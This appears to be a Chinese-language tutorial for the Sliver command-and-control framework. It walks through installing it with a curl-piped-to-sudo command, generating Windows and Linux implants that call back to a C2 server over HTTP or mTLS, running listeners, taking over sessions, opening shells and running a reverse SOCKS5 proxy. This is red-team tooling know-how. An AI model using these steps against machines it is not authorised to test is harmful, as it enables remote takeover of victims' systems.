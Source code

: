 # sliver

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**项目地址**
- https://github.com/BishopFox/sliver

**使用文档**
- https://github.com/BishopFox/sliver/wiki

**相关文章**
- [sliver c2代码的学习](https://x.hacking8.com/post-445.html)

---

## 安装

**官方一条命令版**
```bash
# 安装
curl https://sliver.sh/install|sudo bash

# 连接(默认连接本地服务器)
sliver

# 如果默认连接本地失败,可能是服务没有开启,手动开启再连接即可
systemctl start sliver
sliver
```

---

## 使用

连接服务器后会进去到类似 pupy 的命令行交互界面,使用方法其实差不多

sliver 自 1.5 版本开始,支持2种操作模式 `Session Mode`/`Beacon Mode`

`Beacon Mode` 实现了一种异步通信方式，在这种方式中，木马程序定期检查服务器检索任务、执行它们并返回结果。

`Session Mode` 木马程序将根据底层 C2 协议使用持久连接或使用长轮询创建交互式实时会话。

### 生成 shell (http)

**Session Mode**
```bash
generate -h
generate --http example.com --save /tmp

# 指定平台
generate --http example.com --save /tmp --os win
generate --http example.com --save /tmp --os linux
```

**Beacon Mode**
```bash
generate beacon --http example.com --save /tmp
```

**启动监听器**
```bash
http -h
http --domain example.com

# 查看当前的监听器
jobs

# 关闭监听器
jobs -k [int]
```

**示例**

比如我服务器的外网 ip 为 1.14.5.14 ,监听器在 1919 端口,生成一个 windows 的木马
```bash
generate --http http://1.14.5.14:1919 --save /tmp --os win

# 开启一个基于 http 1919 端口的C2
http -l 1919
```

### 生成 shell (mtls)

```bash
generate --mtls example.com --save /tmp --os win
```

**启动监听器**
```bash
mtls
jobs
```

### 进入 shell

当有主机上线后,控制台会有log提示,我们可以运行 `sessions` 查看可控制的机器列表

```bash
sessions
```

使用 `use` 后面跟 session id 指定要控制的目标主机

```
use [session id]
```

选中 sessions 后,我们可用2种控制模式

**interactive**

交互式会话，在 sliver 中某些命令，例如 `shell` `portfwd` 仅适用于交互式会话

```bash
# 在选中 sessions 后 (仅beacon模式可用)
interactive

close
```

**shell**
```bash
# 在选中 sessions 后
shell
```

### socks5

- https://github.com/BishopFox/sliver/wiki/Reverse-SOCKS
- https://github.com/BishopFox/sliver/tree/master/client/command/socks

**开启 socks5 代理**
```bash
# 在进入 sessions 后 (仅 session 模式可用)
socks5 start

# 默认监听在 127.0.0.1 可自行指定监听的ip、端口、配置socks5认证
socks5 start --help
```

**关闭 socks5 代理**
```bash
socks5 stop -i [ID]
```

---

## 多人运动

- https://github.com/BishopFox/sliver/wiki/Multiplayer-Mode

**服务端**
```bash
/root/sliver-server operator --name f8x --lhost [服务端ip] --save f8x.cfg
```

**用户端**
```bash
# 导入服务端生成的配置文件
sliver import ./f8x.cfg

# 再次启动会让你选择使用哪个 server
sliver
```

## GUI

- https://github.com/BishopFox/sliver-gui

使用和命令行 client 端一样,从服务端下载 cfg 文件导入即可
